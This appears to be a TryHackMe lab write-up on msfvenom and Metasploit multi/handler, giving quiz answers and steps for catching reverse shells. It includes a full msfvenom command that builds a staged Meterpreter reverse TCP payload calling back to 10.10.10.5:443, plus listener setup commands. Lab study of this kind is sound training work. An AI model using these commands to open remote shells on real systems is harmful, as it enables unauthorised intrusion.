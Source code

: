 <h2>Task 9 - msfvenom</h2>
<br>

> 9.1 - <em>Generate a staged reverse shell for a 64 bit Windows target, in a <code>.exe</code> format using your TryHackMe tun0 IP address and a chosen port.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

> 9.2 - <em>Which symbol is used to show that a shell is stageless?</em><br>
>> <code><strong>_</strong></code><br>
<p><br></p>

> 9.3 - <em>What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is <code>elf</code> and the output filename should be <code>shell</code></em><br>
>> <code><strong>msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443</strong></code><br>
<p><br></p>

<h2>Task 10 - Metasploit multi/handler</h2>
<br>

<p>Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.<br>
Fortunately, it's relatively easy to use:</p>

<ol type="1. ">
  <li>Open Metasploit with <code>msfconsole</code>code></li>
  <li>Type <code>use multi/handler</code>code>, and press enter</li>
</ol></p>

<p>We are now primed to start a multi/handler session. Let's take a look at the available options using the <code>options</code> command:</p>

Fortunately, it's relatively easy to use:</p>

![image](https://github.com/user-attachments/assets/013e5120-2c3e-45de-a51d-e317cac45509)

<p>There are three options we need to set: payload, LHOST and LPORT. These are all identical to the options we set when generating  shellcode with Msfvenom -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the LHOST must be specified here, as metasploit will not listen on all network interfaces like netcat or socat will; it must be told a specific address to listen with (when using TryHackMe, this will be your tun0 address). We set these options with the following commands:</p>

<ul style="list-style-type:square">
    <li><code>set PAYLOAD <payload></code>code></li>
    <li><code>set LHOST <listen-address></code>code></li>
    <li><code>set LPORT <listen-port></code>code></li>
</ul></p>

<p>We should now be ready to start the listener!<br>

Let's do this by using the exploit <code>-j command</code>. This tells Metasploit to launch the module, running as a job in the background.</p>

![image](https://github.com/user-attachments/assets/a918e4d3-7834-4222-9f82-02c6b251c9ae)
